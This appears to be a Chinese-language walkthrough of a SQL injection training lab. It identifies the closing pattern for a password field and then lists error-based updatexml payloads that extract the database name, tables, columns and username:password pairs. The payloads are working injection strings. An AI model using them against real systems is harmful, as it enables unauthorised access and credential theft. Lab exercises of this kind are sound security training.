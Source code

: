 # 确认闭合状态
输入：passwd=Dumb&submit=Submit&uname=Dumb  
无回显

输入：passwd=Dumb'&submit=Submit&uname=Dumb  
显示报错信息：near ''Dumb'') LIMIT 0,1' at line 1

说明本关是一个单引号加一个括号的闭合方式  
但由于就算正确输入也没有回显数据，那么可以考虑报错注入


payload参考第5关
# 查询数据库名
passwd=1') and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+&submit=Submit&uname=Dumb

# 查询表名
passwd=1') and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)--+&submit=Submit&uname=Dumb


# 查询列名
passwd=1') and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e),1)--+&submit=Submit&uname=Dumb


# 查询值
passwd=1') and updatexml(1,concat(0x7e,substring((select group_concat(username,':',password) from users),1,10),0x7e),1)--+&submit=Submit&uname=Dumb

passwd=1') and updatexml(1,concat(0x7e,substring((select group_concat(username,':',password) from users),11,10),0x7e),1)--+&submit=Submit&uname=Dumb

passwd=1') and updatexml(1,concat(0x7e,substring((select group_concat(username,':',password) from users),21,10),0x7e),1)--+&submit=Submit&uname=Dumb

...
